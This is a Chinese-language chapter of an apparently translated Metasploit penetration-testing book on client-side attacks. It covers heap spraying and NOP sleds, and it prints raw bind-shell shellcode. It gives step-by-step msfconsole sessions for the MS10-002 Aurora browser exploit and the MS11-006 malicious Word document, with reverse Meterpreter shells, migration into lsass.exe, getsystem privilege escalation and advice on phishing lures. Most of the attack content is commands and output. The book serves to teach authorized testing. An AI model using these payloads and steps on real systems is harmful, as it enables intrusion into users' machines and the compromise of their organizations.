


## 第八章 客户端攻击的利用

多年来，对防御性网络边界的关注极大地缩小了传统的攻击面。当攻击某一路径变得难以渗透时，攻击者可以找到新的、更容易的方法来攻击他们的目标。客户端攻击是网络防御变得更加突出之后的攻击的下一个发展阶段。这些攻击针对安装在计算机上的常见软件，如网络浏览器、PDF 阅读器和 Microsoft Office 应用程序。因为这些程序通常在出厂时就已经安装在计算机上，所以它们是黑客明显的攻击向量。此外，由于补丁周期不规则，这些应用程序在用户机器上通常过时。Metasploit 包括许多内置的客户端漏洞利用，我们将在本章中深入探讨。

如果你能够绕过公司设置的所有的保护措施，并通过欺骗用户点击恶意链接来渗透网络，你就有更大的机会实现入侵。例如，假设你正在对一个企业目标进行隐蔽的渗透测试，使用社会工程学。你决定向目标用户发送钓鱼电子邮件将给你提供最佳的成功机会。你收集电子邮件账户、姓名和电话号码；浏览社交网络网站；并创建已知员工的名单。你的恶意电子邮件指示电子邮件收件人需要更新工资信息；他们需要点击电子邮件中的链接（一个恶意链接）来完成此操作。然而，一旦用户点击链接，计算机就会被入侵，你就可以访问组织的内部网络。

这种场景是一种常见的技巧，在渗透测试和实际恶意攻击中经常被利用。通过攻击用户比利用面向互联网的资源更容易。大多数组织在保护其面向互联网的系统方面投入了大量的资金，使用工具如入侵预防系统（IPS）和 Web 应用程序防火墙，而在教育用户关于社会工程学攻击方面投入的资金却少得多。

2011 年 3 月，一家知名的安全公司 RSA 被一个利用相同过程的攻击者入侵。一个恶意攻击者发送了一封针对 Adobe Flash 零日漏洞的极其针对性的（鱼叉式网络钓鱼）电子邮件。(*鱼叉式网络钓鱼*是一种攻击方式，其中用户被深入研究并针对，而不是从公司地址簿中随机选择。)在 RSA 的案例中，电子邮件针对一小群用户，能够入侵 RSA 的内部连接系统并进一步渗透其网络。

## 基于浏览器的漏洞利用

在本章中，我们将重点关注 Metasploit 中的基于浏览器的漏洞利用。*基于浏览器的漏洞利用*是重要的技术，因为在许多组织中，用户在他们的计算机上使用网页浏览器的时间比使用其他任何应用程序的时间都要多。

考虑另一个场景：我们向一个组织的少数人发送一封包含链接的电子邮件，每个用户都会点击该链接。用户点击链接后，他们的浏览器会打开我们的网站，该网站已被特别设计来利用某个版本的 Internet Explorer 中的漏洞。用户的浏览器应用程序容易受到这种漏洞利用的影响，并且现在仅通过用户访问我们的恶意网站就被破坏了。在我们的这一端，通过在访问网站的用户的上下文中运行的负载（例如 Meterpreter）来获取访问权限。

注意这个例子中的一个重要元素：如果目标用户以管理员身份运行，攻击者（我们）也会这样做。客户端漏洞利用传统上以与它们利用的目标相同的权限和权利运行。通常这是一个没有管理员权限的普通用户，因此我们需要执行*提权攻击*以获得额外的访问权限，并且还需要一个额外的漏洞利用来提升权限。我们还可以潜在地攻击网络上的其他系统，以期获得管理员级别的访问权限。然而，在某些情况下，当前用户的权限级别足以实现渗透。考虑你的网络情况：你的重要数据是否可以通过用户账户访问？或者是否只能通过管理员账户访问？

### 基于浏览器的漏洞是如何工作的

浏览器漏洞类似于任何传统的漏洞利用，但有一个主要区别：用于 shellcode 交付的方法。在传统的漏洞利用中，攻击者的整个目标是获得远程代码执行并交付恶意负载。在浏览器漏洞利用中，获得远程代码执行的最传统方式是通过一种称为*堆喷射*的漏洞利用技术。但在详细检查堆喷射之前，让我们先谈谈什么是*堆*以及它是如何被使用的。

堆是程序运行期间未分配且由应用程序根据需要使用的内存。应用程序将分配完成当前任务所需的任何内存。堆基于计算机可用的内存量以及在整个应用程序生命周期中使用的内存量。在运行时分配的内存位置是事先未知的，因此作为攻击者，我们不知道在哪里放置我们的 shellcode。黑客不能简单地调用一个内存地址并希望到达负载——堆分配内存的随机性阻止了这一点，这种随机性在堆喷射被发现之前是一个主要挑战。

在继续之前，你还需要理解*无操作指令（NOP）*和*NOP 滑动*的概念。NOPs 在第十五章中有详细的介绍，但在这里我们会介绍基础知识，因为它们对于理解堆喷射的工作原理非常重要。NOP 是一种汇编指令，意思是“什么都不做，移动到下一条指令。”NOP 滑动由内存中相邻的多个 NOP 组成，基本上是占用空间。如果一个程序的执行流程遇到一系列 NOP 指令，它将线性地“滑动”到它们的末尾到下一条指令。在 Intel x86 架构中，NOP 的指令码是 90，在利用代码中通常以`\x90`的形式出现。

堆喷射技术涉及用已知的重复模式 NOP 滑动和你的 shellcode 填充堆，直到整个内存空间被这个已知值填满。你可能会记得，堆中的内存是在程序运行时动态分配的。这通常是通过 JavaScript 完成的，这导致浏览器分配的内存显著增长。攻击者用 NOP 滑动和紧随其后的 shellcode 填充大块内存。当程序执行流程被改变并且随机跳转到内存中的某个地方时，有很大几率会击中 NOP 滑动，并最终击中 shellcode。与在干草堆中寻找一根针——即在内存中的 shellcode——相比，堆喷射提供了 85%到 90%的成功几率。

这种技术改变了浏览器利用和浏览器漏洞利用的可靠性。我们不会涵盖堆喷射背后的实际代码，因为这是一个高级利用话题，但你应该了解基础知识，以便理解这些基于浏览器的利用是如何工作的。在我们开始启动我们的第一个浏览器利用之前，让我们看看当启动利用时幕后实际发生了什么。

### 查看 NOP

现在你已经了解了堆喷射和 NOP 的基础，让我们看看实际攻击中一个通用的 NOP 滑动效果。在下面的列表中，注意`\x90`的十六进制表示，这是 Intel x86 架构的指令码。在 Intel x86 汇编中，*90*是一个 NOP。这里你可以看到一系列的`\x90`，它们创建了我们所说的 NOP 滑动效果。其余的代码是有效载荷，例如反向 shell 或 Meterpreter shell。

```
`\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90`
`\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90`
`\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90`
\xfc\xe8\x89\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52\x30
\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff
\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2
\xf0\x52\x57\x8b\x52\x10\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85
\xc0\x74\x4a\x01\xd0\x50\x8b\x48\x18\x8b\x58\x20\x01\xd3\xe3
\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31\xc0\xac\xc1\xcf\x0d
\x01\xc7\x38\xe0\x75\xf4\x03\x7d\xf8\x3b\x7d\x24\x75\xe2\x58
\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b
\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff
\xe0\x58\x5f\x5a\x8b\x12\xeb\x86\x5d\x68\x33\x32\x00\x00\x68
\x77\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\xff\xd5\xb8\x90\x01
\x00\x00\x29\xc4\x54\x50\x68\x29\x80\x6b\x00\xff\xd5\x50\x50
\x50\x50\x40\x50\x40\x50\x68\xea\x0f\xdf\xe0\xff\xd5\x97\x31
\xdb\x53\x68\x02\x00\x01\xbb\x89\xe6\x6a\x10\x56\x57\x68\xc2
\xdb\x37\x67\xff\xd5\x53\x57\x68\xb7\xe9\x38\xff\xff\xd5\x53
\x53\x57\x68\x74\xec\x3b\xe1\xff\xd5\x57\x97\x68\x75\x6e\x4d
\x61\xff\xd5\x6a\x00\x6a\x04\x56\x57\x68\x02\xd9\xc8\x5f\xff
\xd5\x8b\x36\x6a\x40\x68\x00\x10\x00\x00\x56\x6a\x00\x68\x58
\xa4\x53\xe5\xff\xd5\x93\x53\x6a\x00\x56\x53\x57\x68\x02\xd9
\xc8\x5f\xff\xd5\x01\xc3\x29\xc6\x85\xf6\x75\xec\xc3
```

## 使用 Immunity Debugger 来解码 NOP Shellcode

*调试器*为程序的运行状态提供了一个窗口，包括汇编指令流、内存内容和异常细节。渗透测试人员经常利用调试器来识别零日漏洞，以及了解应用程序的工作方式和攻击方式。现在有许多调试器，但我们将来的个人偏好（并在后面的章节中使用）是 Immunity Debugger。我们建议你在继续之前先看看 Immunity Debugger 的基础知识。

为了理解 NOP 滑块的作用，让我们使用调试器查看前面示例中的 NOP shellcode 是如何工作的。在你的 Windows XP 目标上，从[`www.immunityinc.com/`](http://www.immunityinc.com/)下载并安装 Immunity Debugger。我们将使用`msfpayload`命令生成一个简单的 TCP bind shell 的示例 shellcode，监听端口 443。正如你在前面的章节中学到的，bind shell 只是在一个目标机器上的端口上监听，我们可以连接到它。

```
root@bt:/opt/framework3/msf3# `msfpayload windows/shell/bind_tcp LPORT=443 C`
```

当这些命令执行时，将在输出中创建“阶段 1”和“阶段 2”的 shellcode。我们只关心阶段 1 的 shellcode，因为当我们连接到 Metasploit 时，它将为我们处理发送第二阶段。将阶段 1 的 shellcode 复制并粘贴到你选择的文本编辑器中。在继续之前，你需要做一些小的编辑。

现在你有了基本的 shellcode，可以在它的开头添加任意多的 NOP 指令（例如`\x90\x90\x90\x90\x90`）。然后删除所有的`\x`出现，使其看起来类似于以下内容：

```
9090909090909090909090909090909090909090909090909
09090909090909090909090909090909090909090f
ce8890000006089e531d2648b52308b520c8b52148b72280fb74a26
31ff31c0ac3c617c022c20c1cf0d01c7e2f0
52578b52108b423c01d08b407885c0744a01d0508b48188
b582001d3e33c498b348b01d631ff31c0acc1cf0d01c
738e075f4037df83b7d2475e2588b582401d3668b0c4b8b581c01d
38b048b01d0894424245b5b61595a51ffe058
5f5a8b12eb865d6833320000687773325f54684c772607ffd5b8
9001000029c454506829806b00ffd5505050504
050405068ea0fdfe0ffd59731db5368020001bb89e66a105657
68c2db3767ffd5535768b7e938ffffd553535768
74ec3be1ffd5579768756e4d61ffd56a006a0456576802d9c85fffd58b
366a406800100000566a006858a453e5f
fd593536a005653576802d9c85fffd501c329c685f675`ecc3`
```

所有这些都是必要的，因为你需要使用特定的格式，这样 Immunity Debugger 才能接受你复制粘贴的汇编指令。现在你有一个带有前面一些 NOP 指令的 bind shell 用于测试。接下来，打开任何可执行文件——让我们用*iexplore.exe*作为这个例子。打开 Immunity Debugger，选择**文件** ▸ **打开**，并指向一个可执行文件。你应该在主窗口（最大的一个）中看到许多汇编指令。左键单击屏幕上的第一条指令，然后按住 shift 键同时左键单击，以突出显示其下约 300 条指令。

将 shellcode 复制到剪贴板，然后在 Immunity Debugger 窗口中右键单击并选择**二进制** ▸ **二进制粘贴**。这将把示例中的汇编指令粘贴到 Immunity Debugger 窗口中。（记住，我们这样做是为了识别 NOP 的工作方式和汇编指令的执行方式。）

你可以在图 8-1 中看到插入了多个 NOP；如果你向下滚动，你会看到你的 shellcode。

当我们第一次以`bind_tcp`格式导出 shellcode 时，阶段 1 的最后一条指令以`ecc3`结束。定位我们添加的最后一条以`ecc3`结尾的内存指令集。

在`ecc3`之后，按 F2 键创建一个断点。当你添加一个断点时，一旦执行流程遇到它，程序执行将暂停，不会继续。这里很重要，因为代码中仍然有很多我们打开的应用程序的老旧残留部分，继续执行会导致应用程序崩溃，因为我们已经向其中插入了我们自己的代码。我们想要停止并调查应用程序崩溃之前发生了什么。

图 8-1. 创建 NOP 滑块的多个 NOP 示例

在图 8-2 的例子中，注意最后的指令集，它是一个`C3`。这是我们需要的 bind shell 中的最后一个指令集。

在那个`C3`之后，按下 F2，这将设置另一个断点。现在我们准备好了，看看会发生什么。回到你添加 NOPs 的顶部，按下 F7，这将告诉调试器执行下一个汇编命令，进入下一个汇编指令。注意高亮向下移动了一行。没有发生任何事情，因为你添加了一个 NOP。

接下来，多次按下 F7 来向下走 NOP 滑块。当你第一次到达内存指令时，打开一个命令提示符并输入**`netstat -an`**。443 端口上不应该有任何监听，这是一个好迹象，表明你的有效载荷还没有执行。

按下 F5 继续运行应用程序的其余部分，直到达到你设置的断点。你应该能在 Immunity Debugger 窗口的左下角看到断点指示。在这个时候，你已经在调试器中执行了你的有效载荷，你现在应该能够检查`netstat -an`并注意到 443 端口正在监听。

在远程机器上，尝试在 443 端口上 telnet 到目标机器。你会注意到没有任何反应；这是因为监听器还没有从 Metasploit 接收到第二阶段。在你的 Back|Track VM 上，进入 Metasploit 并设置一个多处理器。这将告诉 Metasploit 目标机器上的 443 端口有一个第一阶段监听器。

图 8-2. 我们需要的指令集的最后部分

```
msf >`use multi/handler`
msf exploit(handler) >`set payload windows/shell/bind_tcp`
payload => windows/shell/bind_tcp
msf exploit(handler) >`set LPORT 443`
LPORT => 443
msf exploit(handler) >`set RHOST 192.168.33.130`
RHOST => 192.168.33.130
msf exploit(handler) >`exploit`
[*] Starting the payload handler...
[*] Started bind handler
[*] Sending stage (240 bytes)
[*] Command shell session 1 opened (192.168.33.129:60463 -> 192.168.33.130:443)
```

你已经到达了一个基本的命令行 shell！作为一个良好的练习技巧，尝试一个阶段的 Meterpreter 反向连接，看看你是否能建立连接。完成之后，只需简单地关闭 Immunity Debugger 窗口，你就完成了。现在熟悉 Immunity Debugger 非常重要，因为我们在后面的章节中会利用它。现在让我们启动第一个使用堆喷射的浏览器漏洞利用。

## 探索 Internet Explorer Aurora 漏洞利用

你知道堆喷射的基本工作原理以及如何动态分配内存并将堆填满 NOP 和 shellcode。我们将利用一个使用这种技术的漏洞，以及几乎每个客户端漏洞中都能找到的东西。这里选择的浏览器漏洞是 Aurora 漏洞（Microsoft 安全公告 MS10-002）。Aurora 最臭名昭著的是在针对 Google 和 20 多家其他大型科技公司攻击中使用。尽管这个漏洞在 2010 年初发布，但它特别与我们产生共鸣，因为它使科技行业的一些主要玩家陷入了困境。

我们将首先使用 Aurora Metasploit 模块，然后设置我们的有效载荷。以下命令应该很熟悉，因为我们已经在前面的章节中使用过它们。你还会看到一些我们将稍后讨论的新选项。

```
msf > `use windows/browser/ms10_002_aurora`
msf exploit(ms10_002_aurora) > `set payload windows/meterpreter/reverse_tcp`
payload => windows/meterpreter/reverse_tcp
msf exploit(ms10_002_aurora) > `show options`

Module options:

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   SRVHOST     0.0.0.0         yes       The local host to listen on.
   SRVPORT     8080            yes       The local port to listen on.
   SSL         false             no        Negotiate SSL for incoming connections
   SSLVersion  SSL3              no        Specify the version of
 SSL that should be used
                                                (accepted: SSL2, SSL3, TLS1)
   URIPATH 
                  no        The URI to use for this exploit (default is random)

Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique: seh, thread, process
   LHOST                      yes       The local address
   LPORT     4444             yes       The local port

Exploit target:

   Id  Name
   --  ----
   0   Automatic

msf exploit(ms10_002_aurora) > `set SRVPORT 80`
SRVPORT => 80
msf exploit(ms10_002_aurora) > `set URIPATH /` 
URIPATH => /
msf exploit(ms10_002_aurora) > `set LHOST 192.168.33.129`
LHOST => 192.168.33.129
msf exploit(ms10_002_aurora) > `set LPORT 443`
LPORT => 443
msf exploit(ms10_002_aurora) > `exploit -z`
[*] Exploit running as background job.
msf exploit(ms10_002_aurora) >
[*] Started reverse handler on 192.168.33.129:443
[*] Using URL: http://0.0.0.0:80/
[*] Local IP: http://192.168.33.129:80/
[*] Server started.

msf exploit(ms10_002_aurora) >
```

首先，注意`SRVHOST`的默认设置是 0.0.0.0 ![../images/00002.gif]，这意味着 Web 服务器将绑定到所有接口。`SRVPORT`在![../images/00004.gif]，8080，是目标用户需要连接以触发漏洞的端口。然而，我们将使用 80 而不是 8080。我们也可以设置 SSL 服务器，但在这个例子中，我们将坚持使用标准 HTTP。`URIPATH` ![../images/00005.gif]是用户需要输入以触发漏洞的 URL，我们将它设置为斜杠(`/`) ![../images/00006.gif]。

在定义了设置后，使用你的 Windows XP 虚拟机并通过*http://*<攻击者的 IP 地址>连接到攻击者。你会注意到机器变得有点卡顿。稍等片刻，你应该会看到一个 Meterpreter 外壳。在后台，执行了堆喷射并跳入动态内存，最终触发了你的 shellcode。如果你在运行这个漏洞利用之前在 Windows 中打开任务管理器，你实际上可以看到*iexplore.exe*的内存根据堆的增长而显著增加。

```
msf exploit(ms10_002_aurora) >
[*] Sending Internet Explorer "Aurora" Memory Corruption to client 192.168.33.130
[*] Sending stage (748032 bytes)
[*] Meterpreter session 1 opened (192.168.33.129:443 -> 192.168.33.130:1161)

msf exploit(ms10_002_aurora) > `sessions -i 1`
[*] Starting interaction with 1...

meterpreter >
```

现在你有了 Meterpreter 外壳，但有一个小问题。如果目标用户根据她电脑的卡顿关闭浏览器怎么办？你将有效地失去与目标机器的会话，尽管漏洞利用是成功的，但它会被提前切断。幸运的是，有一个解决办法：一旦建立连接，立即输入**`run migrate`**，并希望你能及时完成。这个 Meterpreter 脚本会自动迁移到另一个进程的内存空间，通常是*lsass.exe*，以提高在目标用户关闭最初被利用的进程时保持外壳打开的机会。

```
meterpreter > `run migrate`
[*] Current server process: IEXPLORE.EXE (2120)
[*] Migrating to lsass.exe...
[*] Migrating into process ID 680
[*] New server process: lsass.exe (680)
meterpreter >
```

这是一个相当手动的过程。你可以使用一些高级选项来自动化整个过程，在成功获得外壳后自动迁移到进程。输入**`show advanced`**来列出 Aurora 模块的高级功能：

```
msf exploit(ms10_002_aurora) > `show advanced`

Module advanced options:

   Name           : ContextInformationFile
   Current Setting:
   Description    : The information file that contains context information

   Name           : DisablePayloadHandler
   Current Setting: false
   Description    : Disable the handler code for the selected payload

   Name           : EnableContextEncoding
   Current Setting: false
   Description    : Use transient context when encoding payloads

   Name           : WORKSPACE
   Current Setting:
   Description    : Specify the workspace for this module

Payload advanced options (windows/meterpreter/reverse_tcp):

   Name           : AutoLoadStdapi
   Current Setting: true
   Description    : Automatically load the Stdapi extension

   Name           : AutoRunScript
   Current Setting:
   Description    : A script to run automatically on session creation.

   Name           : AutoSystemInfo
   Current Setting: true
   Description    : Automatically capture system information on initialization.

   Name           : InitialAutoRunScript
   Current Setting:
   Description    : An initial script to run on session created (before AutoRunScript)

   Name           : ReverseConnectRetries
   Current Setting: 5
   Description    : The number of connection attempts
 to try before exiting the process
   Name           : WORKSPACE
   Current Setting:
   Description    : Specify the workspace for this module

msf exploit(ms10_002_aurora) >
```

通过设置这些选项，你可以微调许多有效载荷和漏洞利用的细节。现在假设你想要改变反向连接尝试的次数。默认值是 5，但你可能担心超时，并希望增加连接重试次数。在这里，我们将它设置为 10：

```
msf exploit(ms10_002_aurora) > `set ReverseConnectRetries 10`
```

在这种情况下，你希望如果目标用户立即关闭浏览器，则自动迁移到新的进程。在`AutoRunScript`下，只需让 Metasploit 知道在创建 Meterpreter 控制台时立即自动运行脚本。使用带有`-f`选项的`migrate`命令告诉 Meterpreter 自动启动一个新进程并迁移到它：

```
msf exploit(ms10_002_aurora) > `set AutoRunScript migrate -f`
```

现在尝试运行漏洞利用并观察会发生什么。尝试关闭连接，看看你的 Meterpreter 会话是否仍然保持活跃。

由于这是一个基于浏览器的漏洞利用，你很可能会以受限用户账户运行。请记住，要发出`use priv`和`getsystem`命令，尝试在目标机器上进行权限提升。

就这些！你刚刚成功执行了第一个客户端攻击，使用的是一个相当著名的漏洞利用。请注意，新的漏洞利用频繁发布，所以请确保搜索所有浏览器漏洞，并找到最适合特定目标的那个。

## 文件格式漏洞利用

*文件格式漏洞*是在特定应用程序中发现的可利用漏洞，例如 Adobe PDF 文档。这类漏洞利用依赖于用户在易受攻击的应用程序中打开恶意文件。恶意文件可以远程托管或通过电子邮件发送。我们在本章开头简要提到了利用文件格式漏洞作为鱼叉式网络钓鱼攻击，我们将在第十章中提供更多关于鱼叉式网络钓鱼的信息。

在传统的文件格式漏洞利用中，你可以利用你认为目标可能会易受其影响的一切。这可能是一个 Microsoft Word 文档、一个 PDF 文件、一张图片或其他任何可能适用的东西。在这个例子中，我们将利用 MS11-006，也称为 Microsoft Windows CreateSizedDIBSECTION 堆栈缓冲区溢出。

在 Metasploit 中搜索`ms11_006`。我们的第一步是通过*msfconsole*进入漏洞利用，并输入**`info`**来查看可用的选项。在下一个示例中，你可以看到文件格式被导出为一个文档：

```
msf > `use windows/fileformat/ms11_006_createsizeddibsection`
msf exploit(ms11_006_createsizeddibsection) > `info`

`. . . SNIP . . .`

Available targets:
  Id  Name
  --  ----
  0   Automatic
  1   Windows 2000 SP0/SP4 English
  2   Windows XP SP3 English
  3   Crash Target for Debugging
```

接下来，你可以看到我们有几个可用的目标可供选择，但我们将使其自动化，并保留所有默认设置：

```
Basic options:
  Name        Current Setting                      Required  Description
  ----        ---------------                      --------  -----------
  FILENAME    msf.doc                              yes       The file name.
  OUTPUTPATH  /opt/metasploit3/msf3/data/exploits  yes       The location of the file.
```

我们需要像往常一样设置一个有效载荷。在这种情况下，我们将选择我们的第一个选择，一个反向 Meterpreter shell：

```
msf exploit(ms11_006_createsizeddibsection) >
`set payloadwindows/meterpreter/reverse_tcp`
payload => windows/meterpreter/reverse_tcp
msf exploit(ms11_006_createsizeddibsection) > `set LHOST 172.16.32.128`
LHOST => 172.16.32.128
smsf exploit(ms11_006_createsizeddibsection) > `set LPORT 443`
LPORT => 443
msf exploit(ms11_006_createsizeddibsection) > `exploit`

[*] Creating 'msf.doc' file...
[*] Generated output file /opt/metasploit3/msf3/data/exploits/msf.doc
msf exploit(ms11_006_createsizeddibsection) >
```

## 发送有效载荷

我们将文件导出为*msf.doc*  并将其发送到 Metasploit 中的*/opt/*  目录。现在我们有了恶意文档，我们可以为我们的目标制作一封电子邮件，并希望用户打开它。在这个阶段，我们应该已经对目标的补丁级别和漏洞有了概念。在我们实际打开文档之前，我们需要设置一个多处理器监听器。这将确保当漏洞利用被触发时，攻击者机器可以接收来自目标机器的连接（反向有效载荷）。

```
msf exploit(ms11_006_createsizeddibsection) > `use multi/handler`
msf exploit(handler) > `set payload windows/meterpreter/reverse_tcp`
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > `set LHOST 172.16.32.128`
LHOST => 172.16.32.128
msf exploit(handler) > `set LPORT 443`
LPORT => 443
msf exploit(handler) > `exploit -j`
[*] Exploit running as background job.
[*] Started reverse handler on 172.16.32.128:443
[*] Starting the payload handler...
msf exploit(handler) >
```

我们在 Windows XP 虚拟机上打开文档，应该会得到一个 shell（假设我们的虚拟机是 Windows XP SP3）：

```
msf exploit(handler) >
[*] Sending stage (749056 bytes) to 172.16.32.131
[*] Meterpreter session 1 opened (172.16.32.128:443 -> 172.16.32.131:2718) at
    Sun Apr 03 21:39:58 −0400 2011
msf exploit(handler) > `sessions -i 1`
[*] Starting interaction with 1...
meterpreter >
```

我们通过 Metasploit 创建了一个恶意文档，并将其发送给我们的目标用户，成功地利用了一个文件格式漏洞。回顾这次攻击，如果我们对目标用户进行了适当的侦察，我们就能制作出一个相当令人信服的电子邮件。这个漏洞利用是 Metasploit 中众多文件格式漏洞的一个例子。

## 总结

我们介绍了客户端漏洞通常是如何通过操纵堆来为攻击者谋利的。我们还介绍了攻击中 NOP 指令的工作原理以及如何使用调试器的基础知识。你将在第十四章创建自己的漏洞和第十五章将漏洞移植到 Metasploit 框架中了解更多关于利用调试器的知识。MS11-006 是一个基于堆的溢出，我们将在后面的章节中深入探讨。请注意，你使用这类攻击的成功率取决于你在尝试攻击之前对目标获取了多少信息。

作为渗透测试员，每一点信息都可以用来构建一个更有效的攻击。在鱼叉式网络钓鱼的情况下，如果你能说公司的语言，并将攻击目标对准公司内部可能不是技术性质的小业务单元，你的成功率将大大提高。浏览器漏洞和文件格式漏洞通常非常有效，前提是你做了充分的准备。我们将在第八章使用客户端攻击进行利用和第十章社会工程学工具包中更详细地介绍这个话题。
